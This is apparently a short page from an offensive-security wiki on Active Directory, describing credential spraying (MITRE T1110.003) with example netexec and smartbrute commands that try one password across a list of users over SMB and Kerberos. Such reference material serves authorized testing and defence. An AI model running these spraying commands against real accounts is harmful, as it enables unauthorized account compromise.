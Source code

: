 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1110.003
authors: 'ShutdownRepo, mpgn, sckdev'
category: ad
---
```


# Spraying

Credential spraying is a technique that attackers use to try a few passwords (or keys) against a set of usernames instead of a single one. This technique is just [credential guessing](guessing) but "sprayed" (i.e. against multiple accounts) and tools that can do [credential guessing](guessing) can usually do spraying.

```bash
# netexec example
nxc smb target_ip -d domain.local -u users.txt -p "password" --no-bruteforce --continue-on-succes

# smartbrute example (dynamic user list)
smartbrute smart -bp "password" kerberos -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --kdc-ip "$KDC" kerberos

# smartbrute example (static users list)
smartbrute brute -bU users.txt -bp "password" kerberos --kdc-ip "$KDC" 
```

> [!TIP]
> Read the ["Password guessing"](guessing) article for more insight.





